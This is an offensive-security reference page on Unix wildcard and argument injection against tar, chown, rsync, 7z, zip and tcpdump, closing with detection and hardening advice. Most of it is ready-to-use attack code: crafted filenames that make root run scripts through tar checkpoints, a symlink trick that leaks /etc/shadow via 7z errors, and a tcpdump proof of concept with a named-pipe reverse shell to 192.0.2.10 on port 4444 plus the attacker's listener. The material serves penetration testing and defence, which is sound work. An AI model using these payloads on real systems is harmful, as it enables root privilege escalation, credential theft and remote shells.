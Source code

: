 # Wildcards Spare Tricks

> Wildcard (aka *glob*) **argument injection** happens when a privileged script runs a Unix binary such as `tar`, `chown`, `rsync`, `zip`, `7z`, … with an unquoted wildcard like `*`.  
> Since the shell expands the wildcard **before** executing the binary, an attacker who can create files in the working directory can craft filenames that begin with `-` so they are interpreted as **options instead of data**, effectively smuggling arbitrary flags or even commands.  
> This page collects the most useful primitives, recent research and modern detections for 2023-2025.

## chown / chmod

You can **copy the owner/group or the permission bits of an arbitrary file** by abusing the `--reference` flag:

```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```

When root later executes something like:

```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```

`--reference=/root/secret``file` is injected, causing *all* matching files to inherit the ownership/permissions of `/root/secret``file`.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (combined attack).  
See also the classic DefenseCode paper for details.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Execute arbitrary commands by abusing the **checkpoint** feature:

```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

Once root runs e.g. `tar -czf /root/backup.tgz *`, `shell.sh` is executed as root.

### bsdtar / macOS 14+

The default `tar` on recent macOS (based on `libarchive`) does *not* implement `--checkpoint`, but you can still achieve code-execution with the **--use-compress-program** flag that allows you to specify an external compressor.

```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
When a privileged script runs `tar -cf backup.tar *`, `/bin/sh` will be started. 

---

## rsync

`rsync` lets you override the remote shell or even the remote binary via command-line flags that start with `-e` or `--rsync-path`:

```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```

If root later archives the directory with `rsync -az * backup:/srv/`, the injected flag spawns your shell on the remote side.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Even when the privileged script *defensively* prefixes the wildcard with `--` (to stop option parsing), the 7-Zip format supports **file list files** by prefixing the filename with `@`.  Combining that with a symlink lets you *exfiltrate arbitrary files*:

```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```

If root executes something like:

```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```

7-Zip will attempt to read `root.txt` (→ `/etc/shadow`) as a file list and will bail out, **printing the contents to stderr**.

---

## zip

`zip` supports the flag `--unzip-command` that is passed *verbatim* to the system shell when the archive will be tested:

```bash
zip result.zip files -T --unzip-command "sh -c id"
```

Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Additional binaries vulnerable to wildcard injection (2023-2025 quick list)

The following commands have been abused in modern CTFs and real environments.  The payload is always created as a *filename* inside a writable directory that will later be processed with a wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Read file contents |
| `flock` | `-c <cmd>` | Execute command |
| `git`   | `-c core.sshCommand=<cmd>` | Command execution via git over SSH |
| `scp`   | `-S <cmd>` | Spawn arbitrary program instead of ssh |

These primitives are less common than the *tar/rsync/zip* classics but worth checking when hunting.

---

## tcpdump rotation hooks (-G/-W/-z): RCE via argv injection in wrappers

When a restricted shell or vendor wrapper builds a `tcpdump` command line by concatenating user-controlled fields (e.g., a "file name" parameter) without strict quoting/validation, you can smuggle extra `tcpdump` flags. The combo of `-G` (time-based rotation), `-W` (limit number of files), and `-z <cmd>` (post-rotate command) yields arbitrary command execution as the user running tcpdump (often root on appliances).

Preconditions:

- You can influence `argv` passed to `tcpdump` (e.g., via a wrapper like `/debug/tcpdump --filter=... --file-name=<HERE>`).
- The wrapper does not sanitize spaces or `-`-prefixed tokens in the file name field.

Classic PoC (executes a reverse shell script from a writable path):

```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
  --file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```

Details:

- `-G 1 -W 1` forces an immediate rotate after the first matching packet.
- `-z <cmd>` runs the post-rotate command once per rotation. Many builds execute `<cmd> <savefile>`. If `<cmd>` is a script/interpreter, ensure the argument handling matches your payload.

No-removable-media variants:

- If you have any other primitive to write files (e.g., a separate command wrapper that allows output redirection), drop your script into a known path and trigger `-z /bin/sh /path/script.sh` or `-z /path/script.sh` depending on platform semantics.
- Some vendor wrappers rotate to attacker-controllable locations. If you can influence the rotated path (symlink/directory traversal), you can steer `-z` to execute content you fully control without external media.

Hardening tips for vendors:

- Never pass user-controlled strings directly to `tcpdump` (or any tool) without strict allowlists. Quote and validate.
- Do not expose `-z` functionality in wrappers; run tcpdump with a fixed safe template and disallow extra flags entirely.
- Drop tcpdump privileges (cap_net_admin/cap_net_raw only) or run under a dedicated unprivileged user with AppArmor/SELinux confinement.

## Detection & Hardening

1. **Disable shell globbing** in critical scripts: `set -f` (`set -o noglob`) prevents wildcard expansion.
2. **Quote or escape** arguments: `tar -czf "$dst" -- *` is *not* safe — prefer `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Explicit paths**: Use `/var/www/html/*.log` instead of `*` so attackers cannot create sibling files that start with `-`.
4. **Least privilege**: Run backup/maintenance jobs as an unprivileged service account instead of root whenever possible.
5. **Monitoring**: Elastic’s pre-built rule *Potential Shell via Wildcard Injection* looks for `tar --checkpoint=*`, `rsync -e*`, or `zip --unzip-command` immediately followed by a shell child process. The EQL query can be adapted for other EDRs. 

---

## References

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (last updated 2025)  
* Rutger Flohil – “macOS — Tar wildcard injection” (Dec 18 2024)
* GTFOBins – [tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
* FiberGateway GR241AG – [Full Exploit Chain](https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/)

